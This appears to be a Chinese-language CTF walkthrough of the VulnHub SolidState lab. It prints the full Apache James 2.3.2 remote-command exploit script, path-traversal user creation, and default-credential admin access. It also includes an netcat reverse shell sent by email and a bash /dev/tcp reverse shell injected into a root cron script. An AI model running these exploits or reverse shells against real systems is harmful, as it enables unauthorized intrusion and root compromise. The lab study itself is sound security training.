





# SolidState

下载地址：https://download.vulnhub.com/solidstate/SolidState.zip

## 实战演练

找到靶场IP地址：`192.168.32.156`



扫描对外端口

```
┌──(root💀kali)-[/tmp]
└─# nmap  -sT -sV  -p1-65535 192.168.32.156                                                                    
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-12 07:41 EDT
Nmap scan report for 192.168.32.156
Host is up (0.00013s latency).
Not shown: 65529 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
25/tcp   open  smtp        JAMES smtpd 2.3.2
80/tcp   open  http        Apache httpd 2.4.25 ((Debian))
110/tcp  open  pop3        JAMES pop3d 2.3.2
119/tcp  open  nntp        JAMES nntpd (posting ok)
4555/tcp open  james-admin JAMES Remote Admin 2.3.2
MAC Address: 00:0C:29:FA:6B:D9 (VMware)
Service Info: Host: solidstate; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.60 seconds
                                                                
```

浏览器访问80端口


扫描80端口的目录没有发现什么可用信息。



搜索James服务可利用脚本

```
┌──(root💀kali)-[~/Desktop]
└─# searchsploit james
----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
Apache James Server 2.2 - SMTP Denial of Service                                   | multiple/dos/27915.pl
Apache James Server 2.3.2 - Insecure User Creation Arbitrary File Write (Metasploi | linux/remote/48130.rb
Apache James Server 2.3.2 - Remote Command Execution                               | linux/remote/35513.py
Apache James Server 2.3.2 - Remote Command Execution (RCE) (Authenticated) (2)     | linux/remote/50347.py
WheresJames Webcam Publisher Beta 2.0.0014 - Remote Buffer Overflow                | windows/remote/944.c
----------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

查看利用脚本

```
┌──(root💀kali)-[~/Desktop]
└─# searchsploit -m 35513
  Exploit: Apache James Server 2.3.2 - Remote Command Execution
      URL: https://www.exploit-db.com/exploits/35513
     Path: /usr/share/exploitdb/exploits/linux/remote/35513.py
File Type: Python script, ASCII text executable

Copied to: /root/Desktop/35513.py


                                                                                                                     
┌──(root💀kali)-[~/Desktop]
└─# cat 35513.py              
#!/usr/bin/python
#
# Exploit Title: Apache James Server 2.3.2 Authenticated User Remote Command Execution
# Date: 16\10\2014
# Exploit Author: Jakub Palaczynski, Marcin Woloszyn, Maciej Grabiec
# Vendor Homepage: http://james.apache.org/server/
# Software Link: http://ftp.ps.pl/pub/apache/james/server/apache-james-2.3.2.zip
# Version: Apache James Server 2.3.2
# Tested on: Ubuntu, Debian
# Info: This exploit works on default installation of Apache James Server 2.3.2
# Info: Example paths that will automatically execute payload on some action: /etc/bash_completion.d , /etc/pm/config.d

import socket
import sys
import time

# specify payload
#payload = 'touch /tmp/proof.txt' # to exploit on any user
payload = '[ "$(id -u)" == "0" ] && touch /root/proof.txt' # to exploit only on root
# credentials to James Remote Administration Tool (Default - root/root)
user = 'root'
pwd = 'root'

if len(sys.argv) != 2:
    sys.stderr.write("[-]Usage: python %s <ip>\n" % sys.argv[0])
    sys.stderr.write("[-]Exemple: python %s 127.0.0.1\n" % sys.argv[0])
    sys.exit(1)

ip = sys.argv[1]

def recv(s):
        s.recv(1024)
        time.sleep(0.2)

try:
    print "[+]Connecting to James Remote Administration Tool..."
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect((ip,4555))
    s.recv(1024)
    s.send(user + "\n")
    s.recv(1024)
    s.send(pwd + "\n")
    s.recv(1024)
    print "[+]Creating user..."
    s.send("adduser ../../../../../../../../etc/bash_completion.d exploit\n")
    s.recv(1024)
    s.send("quit\n")
    s.close()

    print "[+]Connecting to James SMTP server..."
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect((ip,25))
    s.send("ehlo team@team.pl\r\n")
    recv(s)
    print "[+]Sending payload..."
    s.send("mail from: <'@team.pl>\r\n")
    recv(s)
    # also try s.send("rcpt to: <../../../../../../../../etc/bash_completion.d@hostname>\r\n") if the recipient cannot be found
    s.send("rcpt to: <../../../../../../../../etc/bash_completion.d>\r\n")
    recv(s)
    s.send("data\r\n")
    recv(s)
    s.send("From: team@team.pl\r\n")
    s.send("\r\n")
    s.send("'\n")
    s.send(payload + "\n")
    s.send("\r\n.\r\n")
    recv(s)
    s.send("quit\r\n")
    recv(s)
    s.close()
    print "[+]Done! Payload will be executed once somebody logs in."
except:
    print "Connection failed."                                                                          
```

> 漏洞存在于_adduser_功能中。添加新用户时，服务器会创建一个新的子目录来存储该用户的传入和传出电子邮件。但是，用户名字段未正确验证。因此，当我们使用用户名"`../../../../../../../../etc/bash_completion.d`"创建用户时，任何发送到该用户将存储在该目录路径中。为什么这么危险？长话短说，目录 /etc/bash\_completion.d 下的任何内容都由 Bash 自动为所有用户加载！
>
> 因此，如果我们使用指向 `/etc/bash_completion.d` 目录的用户名**创建用户**，当我们向该用户发送电子邮件时，我们的电子邮件将保存在 `bash_completion.d` 目录中，并且我们的电子邮件内容会自动加载当任何用户登录机器时使用 Bash。因此，**如果我们在电子邮件中包含反向 shell，我们所要做的就是等待单个用户登录并且我们可以访问机器！**

nc连接james的**4555**管理端口，使用默认密码root/root进行登录

```
┌──(root💀kali)-[~/Desktop]
└─# nc 192.168.32.156   4555                                                                                   
JAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id:
root
Password:
root
Welcome root. HELP for a list of commands

Unknown command 
help
Currently implemented commands:
help                                    display this help
listusers                               display existing accounts
countusers                              display the number of existing accounts
adduser [username] [password]           add a new user
verify [username]                       verify if specified user exist
deluser [username]                      delete existing user
setpassword [username] [password]       sets a user's password
setalias [user] [alias]                 locally forwards all email for 'user' to 'alias'
showalias [username]                    shows a user's current email alias
unsetalias [user]                       unsets an alias for 'user'
setforwarding [username] [emailaddress] forwards a user's email to another email address
showforwarding [username]               shows a user's current email forwarding
unsetforwarding [username]              removes a forward
user [repositoryname]                   change to another user repository
shutdown                                kills the current JVM (convenient when James is run as a daemon)
quit                                    close connection
```

可以列出用户以查看五个帐户：

```
listusers
Existing accounts 5
user: james
user: thomas
user: john
user: mindy
user: mailadmin
```

可以更改每个用户的密码为`123456`。

```
setpassword -h
Usage: setpassword [username] [password]

setpassword james 123456  
Password for james reset
setpassword thomas 123456
Password for thomas reset
setpassword john 123456
Password for john reset
setpassword mindy 123456
Password for mindy reset
setpassword mailadmin 123456
Password for mailadmin reset
```

对于每个帐户，我现在可以连接到 TCP 110 (POP3) 来检查邮件。`telnet`最适合连接到 POP3。

第一个用户 james 没有消息：

```
┌──(root💀kali)-[~/Desktop]
└─# telnet 192.168.32.156 110
Trying 192.168.32.156...
Connected to 192.168.32.156.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
user james
+OK
pass 123456
+OK Welcome james
list
+OK 0 0
.
```

> `ctrl`+`]`键退出

thomas 中也没有邮件

```
┌──(root💀kali)-[~/Desktop]
└─# telnet 192.168.32.156 110
Trying 192.168.32.156...
Connected to 192.168.32.156.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
user thomas
+OK
pass 123456
+OK Welcome thomas
list
+OK 0 0
.
```

但 john 确实显示了一条消息：

```
┌──(root💀kali)-[~/Desktop]
└─# telnet 192.168.32.156 110
Trying 192.168.32.156...
Connected to 192.168.32.156.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
user john
+OK
pass 123456
+OK Welcome john
list
+OK 1 743
1 743
.
```

我将使用`RETR`命令来阅读它：

```
ETR 1
+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <9564574.1.1503422198108.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: john@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 581
          for <john@localhost>;
          Tue, 22 Aug 2017 13:16:20 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:16:20 -0400 (EDT)
From: mailadmin@localhost
Subject: New Hires access
John, 

Can you please restrict mindy's access until she gets read on to the program. Also make sure that you send her a tempory password to login to her accounts.

Thank you in advance.

Respectfully,
James
```

> 你能在mindy读到程序之前限制她的访问权限吗。还要确保你给她发了一个登录她账户的临时密码。
>
> 先谢谢你。

检查mindy 邮箱信息

```
RETR 1
+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <5420213.0.1503422039826.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: mindy@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 798
          for <mindy@localhost>;
          Tue, 22 Aug 2017 13:13:42 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:13:42 -0400 (EDT)
From: mailadmin@localhost
Subject: Welcome

Dear Mindy,
Welcome to Solid State Security Cyber team! We are delighted you are joining us as a junior defense analyst. Your role is critical in fulfilling the mission of our orginzation. The enclosed information is designed to serve as an introduction to Cyber Security and provide resources that will help you make a smooth transition into your new role. The Cyber team is here to support your transition so, please know that you can call on any of us to assist you.

We are looking forward to you joining our team and your success at Solid State Security. 

Respectfully,
James
.
```

> 亲爱的明迪, 欢迎加入固国安全网络团队!我们很高兴你能加入我们成为一名初级国防分析师。你的角色对于完成我们组织的使命至关重要。所附资料旨在为您介绍网络安全，并提供资源，帮助您顺利过渡到您的新角色。网络小组在这里支持你的过渡，所以，请知道，你可以呼叫我们中的任何一个来帮助你。
>
> 我们期待您加入我们的团队并取得成功。
>
> 尊重, 詹姆斯

```
RETR 2
+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <16744123.2.1503422270399.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: mindy@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 581
          for <mindy@localhost>;
          Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
From: mailadmin@localhost
Subject: Your Access

Dear Mindy,


Here are your ssh credentials to access the system. Remember to reset your password after your first login. 
Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path. 

username: mindy
pass: P@55W0rd1!2@

Respectfully,
James
```

> 这里是您访问系统的ssh凭证。首次登入后，请记得重置密码。 您的访问权限目前受到限制，请随意要求您的主管将您需要的任何命令添加到您的路径中。

使用上面发现SSH账号进行登录

```
┌──(root💀kali)-[~/Desktop]
└─# ssh mindy@192.168.32.156  
The authenticity of host '192.168.32.156 (192.168.32.156)' can't be established.
ECDSA key fingerprint is SHA256:njQxYC21MJdcSfcgKOpfTedDAXx50SYVGPCfChsGwI0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.32.156' (ECDSA) to the list of known hosts.
mindy@192.168.32.156's password: 
Linux solidstate 4.9.0-3-686-pae #1 SMP Debian 4.9.30-2+deb9u3 (2017-08-06) i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Aug 22 14:00:02 2017 from 192.168.11.142
```

正如电子邮件所建议的那样，shell的权限是有限的

```
mindy@solidstate:~$ whoami
-rbash: whoami: command not found
mindy@solidstate:~$ id
-rbash: id: command not found
```

mindy的shell是`rbash`

```
mindy:x:1001:1001:mindy:/home/mindy:/bin/rbash
```

查看当前目录的内容

```
mindy@solidstate:~$ ls
bin  user.txt
mindy@solidstate:~$ cat user.txt 
914d0a4ebc1777889b5b89a23f556fd75
mindy@solidstate:~$ ls bin/
cat  env  ls   
```

### rbash 转义（快速方法）

```
┌──(root💀kali)-[~/Desktop]
└─# ssh mindy@192.168.32.156 -t bash
mindy@192.168.32.156's password: 
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ id
uid=1001(mindy) gid=1001(mindy) groups=1001(mindy)
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ whoami
mindy
```

### james脚本利用（预期方法）

james手动添加用户

```
┌──(root💀kali)-[~/Desktop]
└─# nc 192.168.32.156   4555
JAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id:
root
Password:
root
Welcome root. HELP for a list of commands
adduser ../../../../../../../../etc/bash_completion.d 123456
User ../../../../../../../../etc/bash_completion.d added
quit
Bye
```

我将向该用户发送一封带有反向 shell 的电子邮件

```
┌──(root💀kali)-[~/Desktop]
└─# telnet 192.168.32.156 25                                                                                     1 ⨯
Trying 192.168.32.156...
Connected to 192.168.32.156.
Escape character is '^]'.
220 solidstate SMTP Server (JAMES SMTP Server 2.3.2) ready Fri, 17 Jun 2022 03:42:43 -0400 (EDT)
EHLO 123456
250-solidstate Hello 123456 (192.168.32.130 [192.168.32.130])
250-PIPELINING
250 ENHANCEDSTATUSCODES
MAIL FROM:<test@test.com>
250 2.1.0 Sender <test@test.com> OK
RCPT TO: <../../../../../../../../etc/bash_completion.d>
250 2.1.5 Recipient <../../../../../../../../etc/bash_completion.d@localhost> OK
DATA
354 Ok Send data ending with <CRLF>.<CRLF>
FROM: test@test.com 
'
/bin/nc -e /bin/bash 192.168.32.130 12345
.
250 2.6.0 Message received
quit
221 2.0.0 solidstate Service closing transmission channel
Connection closed by foreign host.
```

> 误发删除之前的邮件
>
> 

不过我这边一直上不了SHELL，奇怪。使用快速方法进去。

查找可以利用的文件

```
find / -writable -type f 2>/dev/null
```

找到`/opt`目录

```
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ ls
james-2.3.2  tmp.py
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ cat tmp.py 
#!/usr/bin/env python
import os
import sys
try:
     os.system('rm -r /tmp/* ')
except:
     sys.exit()
```

使用pspy监控进程，发现每三分钟会执行一个计划任务，并且是root用户执行



修改`tmp.py`，添加反弹shell，等三分钟

```
${debian_chroot:+($debian_chroot)}mindy@solidstate:/tmp$ cat /opt/tmp.py 
#!/usr/bin/env python
import os
import sys
try:
     os.system('rm -r /tmp/* ')
except:
     sys.exit()

os.system('bash -c "bash -i >& /dev/tcp/192.168.32.130/12345 0>&1"')
```

成功反弹成功


